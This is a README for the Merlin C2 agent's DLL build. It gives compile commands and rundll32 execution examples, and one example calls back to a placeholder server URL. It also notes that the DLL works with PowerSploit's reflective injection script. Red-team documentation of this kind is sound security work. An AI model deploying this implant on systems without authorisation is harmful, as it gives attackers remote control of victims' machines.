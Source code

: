 # Merlin Agent DLL
Merlin can be compiled into a DLL. The `data/bin/dll/merlin.c` file is
a very simple C file with a single function. The `VoidFunc` and `Run`
functions are exported to facilitate executing the DLL.
The `VoidFunc` function name was specifically chosen to facilitate use
with PowerSploit's
[Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
. Using `VoidFunc` requires no modification to run Merlin's DLL with
Invoke-ReflectivePEInjection.

If the DLL is compiled on Windows, the
[TDM-GCC](http://tdm-gcc.tdragon.net/download) 64bit compiler has proven
 to work well during testing.

If the DLL is compiled on Linux, ensure `MinGW-w64` is installed.

## Creating the DLL
The DLL can be created using the Make file with `make agent-dll`

Alternatively, it can be compiled without Make by following these steps:
* Create the required C archive file:
  * `cd data/bin/dll;go build -buildmode=c-archive ../../../cmd/merlinagentdll/main.go`

* Compile the DLL
  * `gcc -shared -pthread -o merlin.dll merlin.c main.a -lwinmm -lntdll -lws2_32`

You will now have DLL file that you can use with whatever method of
execution you would like.

## Execution with Rundll32.exe
The DLL can be executed on a Windows host using the rundll32.exe
program. An example of using `rundll32` is:

`rundll32 merlin.dll,man` or `rundll32 merlin.dll,Run`

A different Merlin server _can_ be provided when executing the DLL by
suppling the target URL as an argument. An example is:

`rundll32 merlin.dll,Run https://yourdomian.com:443/`

## Invoke-Merlin
The compiled DLL can be inserted into the `Invoke-Merlin.ps1` script.
Check the [README](../powershell/README.MD) in the `powershell` directory for
additional details.

## Limitations
It is important to note that the DLL is currently in the
Proof-of-Concept stage. Because of this, there is no way to provide a
different Merlin server URL when calling `Invoke-Merlin`.
`Invoke-Merlin` will only call back to the Merlin server at
127.0.0.1. because that is the hard coded value. Future work will
facilitate specifying the value at compile time or when executing the
script. Work is in progress to overcome this issue.

One option to overcome this is to hard-code in the target Merlin server
address into the `url` variable of the `cmd/merlinagent/main.go` prior
to creating the C archive file.
